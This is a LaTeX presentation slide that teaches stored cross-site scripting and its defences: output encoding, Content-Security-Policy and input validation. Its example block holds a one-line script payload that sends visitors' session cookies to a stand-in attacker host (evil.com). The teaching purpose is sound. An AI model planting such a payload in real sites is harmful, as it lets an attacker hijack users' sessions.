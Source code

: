 \begin{frame}{Fix: XSS -- Cross-Site Scripting (Brief)}
  \begin{block}{What is XSS?}
    \textbf{Cross-Site Scripting (XSS)} injects malicious JavaScript into web pages that
    are then executed by other users' browsers. Stored XSS: the script is saved in the database
    and displayed to every visitor.
  \end{block}

  \begin{exampleblock}{Example}
    A user submits this as their display name: \\
    \texttt{<script>document.location='https://evil.com/?c='+document.cookie</script>}\\[4pt]
    If stored unescaped in the DB and rendered verbatim in HTML, every user who views that page
    sends their session cookie to the attacker.
  \end{exampleblock}

  \begin{block}{Defences}
    \begin{itemize}
      \item \textbf{Output encoding}: escape HTML special characters (\texttt{<}, \texttt{>},
            \texttt{\&}, \texttt{"}) before rendering user content in HTML.
      \item \textbf{Content-Security-Policy (CSP)} HTTP header restricts which scripts may execute.
      \item \textbf{Server-side input validation}: reject input that contains HTML/script tags.
    \end{itemize}
  \end{block}
\end{frame}

